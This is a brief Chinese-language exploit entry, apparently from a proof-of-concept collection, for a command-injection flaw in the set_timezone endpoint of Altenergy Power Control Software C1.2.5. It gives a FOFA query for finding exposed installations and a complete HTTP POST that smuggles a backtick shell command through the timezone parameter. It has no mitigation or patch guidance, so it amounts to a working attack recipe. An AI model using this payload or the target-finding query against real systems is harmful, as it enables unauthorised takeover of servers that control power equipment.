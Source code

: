# Altenergy电力系统控制软件set_timezone接口存在远程命令执行漏洞

电力系统控制软件 Altenergy Power Control Software C1.2.5版本的系统/set_timezone接口存在命令注入漏洞，攻击者可执行任意命令获取服务器权限。

## fofa

```yaml
title="Altenergy Power Control Software"
```

## poc

```java
POST /index.php/management/set_timezone HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
 
timezone=`id > rce.txt`
```

![image-20240820204404636](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202408202044765.png)



## 漏洞来源

- https://mp.weixin.qq.com/s/Zf5Jrr2pozEBVxBaV8BsgQ